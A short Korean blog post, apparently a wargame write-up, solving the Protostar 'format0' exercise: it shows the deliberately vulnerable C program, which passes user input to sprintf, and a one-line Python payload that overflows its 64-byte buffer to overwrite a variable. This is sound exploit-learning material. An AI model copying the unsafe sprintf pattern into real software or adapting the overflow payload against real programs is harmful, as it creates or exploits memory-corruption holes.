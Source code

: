```yaml
---
layout: post
title: "[exploit-exercise][protostar] format0"
date: 2016-09-16 01:10:00
category: wargame
tags:  [exploit-exercise, fsb]
---
```


Format String 을 좀더 공부하기 위하여 exploit-exercise/protostar 도 풀어보기 도전...
[Protostar Format0 - Exploit Exercises](https://exploit-exercises.com/protostar/format0/)

- This level should be done in less than 10 bytes of input.
- “Exploiting format string vulnerabilities”

<!--more--> 

## Code 

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```


## Solve

먼저 시도한 exploit 은 BoF 에서 많이 사용하던 아래와 같은 패턴인데 계속 error 가 발생하는거다. 왜지 ?

```bash
$ python -c 'print "A"*64 + "\xef\xbe\xad\xde"' |./format0
close failed in file object destructor:
Error in sys.excepthook:

Original exception was:   
```

근데, 뭐가 문제인지 잘 모르겠다.
[python - Addressing sys.excepthook error in bash script - Stack Overflow](http://stackoverflow.com/questions/7955138/addressing-sys-excepthook-error-in-bash-script)


## Exploit

Error 가 나서 `|` 대신에 argument 로 넘기니깐 동작하네... 

```bash
$ ./format0 $(python -c 'print "A"*64 + "\xef\xbe\xad\xde"')
you have hit the target correctly :) 
```

근데 이것은 BoF 랑 차이점이 뭐지 ?
